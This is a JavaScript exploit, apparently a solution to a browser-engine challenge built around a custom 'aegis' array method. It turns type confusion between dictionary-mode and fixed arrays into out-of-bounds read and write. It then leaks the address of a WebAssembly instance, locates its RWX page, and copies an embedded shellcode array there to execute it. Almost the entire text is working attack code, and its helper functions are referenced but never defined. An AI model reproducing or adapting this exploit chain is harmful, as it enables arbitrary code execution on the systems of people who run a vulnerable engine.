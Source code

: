 ```javascript
let shellcode = [0x90909090, 0x90909090, 3343384682, 1885417159, 3209189232, 1819632492, 1919906913, 1958692951, 1936617321, 1465991983, 1093648200, 1768714352, 1213686115, 6499775, 1852141679, 3209189152, 1852400175, 6845231, 3867756631, 2303197290, 3330492663, 2303219211, 3330492670, 2303219208, 2303219454, 3526445286, 2965385544, 3368110082, 255569960, 2425393157, 2425393296, 2425393296, 0x90909090, 0xcccccccc];

let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports._Z3addii;

let storage = [];

// Packed Double Array -> Fixed Array
// Fast Path
let arr = [1.1, 2.2, 3.3];

// Converted from Fixed Array to Dictionary mode
// Slow Path
arr[0x8000] = 1.1;

storage.push([1.1, 2.2, 3.3, 4.4]);
storage.push([u2d(0xcafebabe, 0xcafebabe), f]);
let ab = new ArrayBuffer(0x3232);

// "arr" is dictionary mode.
// But, "aegis" function uses the "arr" as Fixed Array
// So, Array mode "Type Confusion" occur.
// We can bypass length check routine.
arr.aegis(0x1f + 6, u2d(0, 0x4141));

let victim = storage[0];

for (let i = 0; i < 0x40; i++) {
  tmp = d2u(victim[i]);
  console.log(i + " : " + hex(tmp[0], tmp[1]));
}

let wasm_addr = d2u(victim[44]);

let dv = new DataView(ab);
victim[51] = u2d(wasm_addr[0] - 1, wasm_addr[1]);
lo = dv.getUint32(0x18, true);
hi = dv.getUint32(0x18 + 4, true);

console.log(hex(wasm_addr[0], wasm_addr[1]));
console.log(hex(lo, hi));

victim[51] = u2d(lo - 1 - 288, hi);
rwx_lo = dv.getUint32(0, true);
rwx_hi = dv.getUint32(4, true);

console.log(hex(rwx_lo, rwx_hi));

victim[51] = u2d(rwx_lo, rwx_hi);

for (let i = 0; i < shellcode.length; i++) {
  dv.setUint32(4 * i, shellcode[i], true);
}

console.log(u2d(0, 0x1000));

```